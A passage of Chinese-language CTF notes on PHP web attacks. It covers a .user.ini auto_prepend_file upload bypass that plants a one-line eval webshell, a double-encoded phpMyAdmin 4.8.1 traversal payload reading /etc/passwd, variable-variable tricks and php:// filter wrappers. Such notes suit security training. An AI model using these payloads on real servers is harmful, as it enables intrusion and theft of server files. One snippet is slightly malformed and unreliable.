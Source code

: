     GIF89a                  //绕过exif_imagetype()
    auto_prepend_file=a.jpg //指定在主文件之前自动解析的文件的名称，并包含该文件，就像使用require函数调用它一样。
    auto_append_file=a.jpg  //解析后进行包含

然后构造一个 a.jpg UTF8 编码，内容如下：

    GIF89a
    <script language='php'> @eval($_POST['pass']);</script>

然后在上传路径需要有个可执行的 php, 比如都上传到了 /uploads/123/下 有 index.php

最后直接访问 /uploads/123/index.php 连接 webshell.

条件：

1、服务器脚本语言为 PHP
2、服务器使用 CGI／FastCGI 模式
3、上传目录下要有可执行的 php 文件
实例：上传.user.ini 绕过黑名单检验

## php 代码分析

    $first ="hello";
    $hello ="world";
    echo $first." ".$$first;
    结果是 hello world
    $$first就是$hello，因为$first的值是hello

    var_dump($$args) , flag可能存在于 , 全局变量 $GLOBALS , ?args=GLBOALS

[BJDCTF2020]Mark loves cat

```
foreach($_GET as $x => $y){

$a='fg';
$$a='xx'`; //可变变量表示
$fg='xx';
```

`[GWCTF 2019]我有一个数据库` phpadmin4.8.1 漏洞

```php
payload: /phpmyadmin/?target=db_datadict.php%253f/../../../../../../../../etc/passwd
```

## 伪协议介绍 / 可二次编码

https://www.cnblogs.com/wjrblogs/p/12285202.html
伪协议处理时会对过滤器 urldecode 一次，所以是可以利用二次编码绕过的

### 过滤器

string.rot13
string.tolower
string.strip_tags
convert.base64-encode 和 convert.base64-decode
convert.quoted-printable-encode 和 convert.quoted-printable-decode
convert.iconv.\*
convert.iconv.<input-encoding>.<output-encoding> 或 convert.iconv.<input-encoding>/<output-encoding> （两种写法的语义都相同）
convert.iconv.utf-16le.utf-8
zlib.deflate 和 zlib.inflate
bzip2.compress 和 bzip2.decompress
dechunk
